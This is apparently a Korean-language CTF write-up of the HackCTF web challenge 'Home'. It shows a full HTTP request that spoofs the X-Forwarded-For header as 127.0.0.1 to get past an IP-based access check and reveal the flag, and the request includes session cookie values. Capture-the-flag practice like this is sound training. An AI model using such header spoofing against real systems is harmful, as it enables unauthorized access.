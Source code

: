 ```yaml
---
title: 'HackCTF - WEB - Home'
date: 2020-04-05 21:04:76
---
```

# HackCTF - WEB - Home

일단 문제 사이트에 접근을 하면 아래와 같은 화면으로 IP 주소에 대해 검증을 하여 접근 제한을 하는 모습을 볼 수 있습니다.

![image-20191210201522512](image/HackCTF - WEB - Home/image-20191210201522512.png)

이때 머리말을 생각 해보라고 힌트를 주는데 이떄의 머리말은 HTTP의 Header에 대해 이야기 하는 것이고 예전에 풀었던 RITSEC CTF의 문제와 같이 **X-Forwarded-For** 를 이용하는 것을 알 수 있습니다. 이제 한번 패킷을 전송해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2034
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1 // 루프백 주소를 전달
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; PassAdmin=j0n9hyun
Connection: close
```

이제 결과를 보면 아래와 같이 플래그가 출력 되는 것을 볼 수 있습니다.

![image-20191210202100635](image/HackCTF - WEB - Home/image-20191210202100635.png)
